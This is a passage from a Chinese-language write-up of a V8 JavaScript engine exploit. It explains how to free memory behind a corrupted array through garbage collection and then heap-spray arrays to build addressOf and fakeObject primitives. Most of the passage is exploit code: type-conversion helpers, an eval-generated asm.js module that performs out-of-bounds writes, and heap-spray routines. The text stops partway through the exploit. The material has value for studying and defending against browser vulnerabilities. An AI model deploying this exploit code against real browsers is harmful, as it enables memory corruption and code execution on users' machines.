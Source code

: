 ```
`}`
```

这里，我们`victim_array[next_array_idx] = null;`使得该处对象失去了引用，然后通过申请大量的内存`new ArrayBuffer(0x1000000);`触发了垃圾回收器将`next_array`的内存回收，这样`corrupted_array`后方的内存就空闲了，然后我们堆喷多个`HOLEY_ELEMENTS`类型的`Array`，因为该`Array`存储着的是对象的指针，因此，我们结合`corrupted_array`和该处的`Array`，就可以构造`addressOf`原语和`fakeObject`原语。其构造布置比较简单，这里不再叙述。然后后续利用也比较容易了。

### <a class="reference-link" name="exp"></a>exp

```
function gc() `{`
   for (let i = 0; i &lt; 0x10; i++) `{`
      new ArrayBuffer(0x1000000);
   `}`
`}`

var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function u64f(value) `{`
   dv.setFloat64(0,value,true);
   return [dv.getUint32(0,true),dv.getUint32(4,true)];
`}`

//距离不是固定的，因此需要将所有可能的距离都赋值,我们要修改Element的length和第一个元素
let loop = "";
for(let i = 0; i &lt; 0xd0; i++) `{`
    loop += `fl[$`{`0x21041 + 0x100 * i`}`] = x;fl[$`{`0x21042 + 0x100 * i`}`] = x;`;
`}`

let eval_str = `
function module(stdlib, foreign, buffer) `{`
    "use asm";
    var fl = new stdlib.Uint32Array(buffer);
    function foo(x) `{`
        x = x | 0;
        $`{`loop`}`
    `}`
    return foo;
`}`
`
eval(eval_str);

//堆喷
var victim_array = [];
victim_array.length = 0x750;
var array = [1.1];
array.length = 0x10000;
array.fill(2.2);
function spray_heap() `{`
    for(var i = 0;i &lt; victim_array.length;i++)`{`
        victim_array[i] = array.slice(0,array.length);
    `}`
`}`

var global = `{`Uint32Array:Uint32Array`}`;
var env = `{``}`;
```